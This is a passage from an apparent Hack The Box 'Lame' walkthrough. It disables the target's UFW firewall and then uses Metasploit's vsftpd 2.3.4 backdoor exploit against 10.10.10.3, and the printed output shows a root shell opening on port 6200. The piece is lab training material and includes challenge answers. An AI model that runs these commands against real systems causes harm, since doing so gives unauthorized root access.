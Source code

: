 ```text
tcp6       0      0 :::3632                 :::*                    LISTEN      5277/distccd
tcp6       0      0 :::53                   :::*                    LISTEN      5022/named
tcp6       0      0 :::22                   :::*                    LISTEN      5046/sshd
tcp6       0      0 :::5432                 :::*                    LISTEN      5250/postgres
tcp6       0      0 ::1:953                 :::*                    LISTEN      5022/named
```

The port 10.10.10.3:53  with service 5022/named should be accessible. But not. There is something that blocks the network, same with iptables.

It must be firewall.


> Task 9: firewall

Check OS information:
```text
root@lame:~# cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

Find how to disable firewall.
Ubuntu 8.04 use UFW service.

```bash
sudo ufw disable
```

Try to exploit the vsftp again.


```text
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set CHOST 10.10.14.50
CHOST => 10.10.14.50
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set CPORT 4441
CPORT => 4441
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - The port used by the backdoor bind listener is already open
[+] 10.10.10.3:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.10.14.50:4441 -> 10.10.10.3:6200) at 2024-06-30 13:43:08 -0400

pwd
/

```

Exploit successfully.

> Task 10: When the VSFTPd backdoor is trigger, what port starts listening?

> Answer: 6200



